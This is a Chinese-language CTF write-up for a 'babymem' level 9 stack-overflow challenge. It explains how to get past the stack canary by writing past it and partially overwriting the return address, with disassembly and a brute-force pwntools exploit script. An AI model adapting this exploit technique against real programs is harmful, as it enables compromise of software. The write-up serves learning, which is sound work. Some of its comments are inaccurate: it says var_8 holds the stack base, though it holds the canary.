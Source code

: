 ## level 9

这道题开启了栈保护，但我们能控制缓冲区溢出时写入的位置，只要我们跳过栈保护的随机值，直接覆盖返回地址，就不会出发栈保护。



```asm
.text:0000000000002684 B8 00 00 00 00                mov     eax, 0
.text:0000000000002689 48 8B 4D F8                   mov     rcx, [rbp+var_8] # var_8存储的是栈基址
.text:000000000000268D 64 48 33 0C 25 28 00 00 00    xor     rcx, fs:28h
.text:0000000000002696 74 05                         jz      short locret_269D
.text:0000000000002696
.text:0000000000002698 E8 C3 EA FF FF                call    ___stack_chk_fail

buffsize
00 00 00 00 n 00 00 00
变量1
金丝雀随机值
rbp
return返回地址

```

有一个需要注意的问题，就是发送的字节数。因为在循环的结束是小于之前输入的`v4`，所以你必须确保在覆盖掉返回地址的两个字节后，循环就要终止。所以向程序发送的`v4`，是` buffer 距离 return 的字节数 + 2`

```python
printf("Send your payload (up to %lu bytes)!\n", v4);
while ( *v6 < v4 )
{
    v0 = read(0, (char *)v5 + *v6, 1uLL);
    *v6 += v0;
}
```


```python

from pwn import *

elf = ELF("/challenge/babymem_level9.1")

while True:
    p = process("/challenge/babymem_level9.1")
    p.sendline("58")
    output = p.recvuntil("Send your payload (up to 58 bytes)!").decode("utf-8")

    i = 0 
    while i < (24 + 1) + 2: # 24 为buffer_size  2是覆盖的返回值字节数, 1是n变量
        print(f"send {i}th bytes")

        if i == 24:
            p.send(b'\x37')
        elif i == 26:
            p.send(b'\x1A')
        elif i == 25:
            p.send(b'\x76')
        else:
            p.send(b'\xBB')

        i += 1
    
    output = p.recvall().decode("utf-8")
    if "pwn" in output:
        print(output)
        exit()

```